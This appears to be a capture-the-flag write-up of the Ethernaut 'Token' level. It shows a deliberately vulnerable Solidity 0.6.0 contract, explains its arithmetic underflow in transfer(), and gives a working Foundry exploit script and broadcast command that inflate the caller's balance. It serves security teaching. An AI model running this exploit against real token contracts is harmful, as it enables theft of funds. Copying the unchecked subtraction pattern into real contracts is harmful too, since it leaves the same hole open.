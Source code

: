 ```yaml
---
title: 'Token - The Ethernaut'
cover: https://ethernaut.openzeppelin.com/imgs/Level5.svg
categories: ["ctf"]
tags: ["blockchain","ethernaut"]
date: 2025-09-17
lastmod: 2025-09-17
---
```


## Challenge Overview

In this level, you start with 20 tokens and need to acquire additional tokens to complete the challenge. The contract contains a critical vulnerability due to arithmetic underflow in Solidity version 0.6.0, which allows an attacker to manipulate their token balance by attempting to transfer more tokens than they possess.

---

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {
    mapping(address => uint256) balances;
    uint256 public totalSupply;

    constructor(uint256 _initialSupply) public {
        balances[msg.sender] = totalSupply = _initialSupply;
    }

    function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }

    function balanceOf(address _owner) public view returns (uint256 balance) {
        return balances[_owner];
    }
}
```

---

## Exploit Explanation

The vulnerability exists in the `transfer()` function:

```solidity
require(balances[msg.sender] - _value >= 0);
balances[msg.sender] -= _value;
```

In Solidity versions prior to 0.8.0, arithmetic operations do not automatically check for underflow/overflow. When you attempt to subtract a larger value from a smaller unsigned integer, the result **wraps around** to the maximum value of the type (2²⁵⁶ - 1) due to underflow.

The exploit works as follows:
1. You start with 20 tokens
2. You attempt to transfer 21 tokens (more than you have)
3. The calculation `balances[msg.sender] - _value` becomes `20 - 21`
4. This results in an underflow, wrapping around to an extremely large number (2²⁵⁶ - 1)
5. The require statement passes because the result is positive (albeit due to underflow)
6. Your balance is then set to this enormous value

---

## Exploit Script

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.6.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import "../src/Token.sol";

contract TokenSolution is Script {
    Token public tokenInstance = Token(<YOUR_INSTANCE>);

    function run() public {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        
        // Check initial balance
        uint256 initialBalance = tokenInstance.balanceOf(vm.envAddress("MY_ADDRESS"));
        console.log("Initial balance:", initialBalance);
        
        // Trigger the underflow by transferring more tokens than we have
        // Sending to address(0) to avoid affecting other balances
        tokenInstance.transfer(address(0), 21);
        
        // Check the new balance after the exploit
        uint256 newBalance = tokenInstance.balanceOf(vm.envAddress("MY_ADDRESS"));
        console.log("New balance after exploit:", newBalance);
        
        vm.stopBroadcast();
    }
}
```

---

## Proof of Concept (PoC)

Execute the exploit with Foundry:

```bash
forge script script/TokenSolution.s.sol --rpc-url $SEPOLIA_URL --broadcast
```

> **Note:** In modern Solidity versions (0.8.0+), this vulnerability would be prevented by automatic overflow/underflow checks. However, since this contract uses version 0.6.0, the underflow occurs successfully, granting you an enormous token balance and completing the level.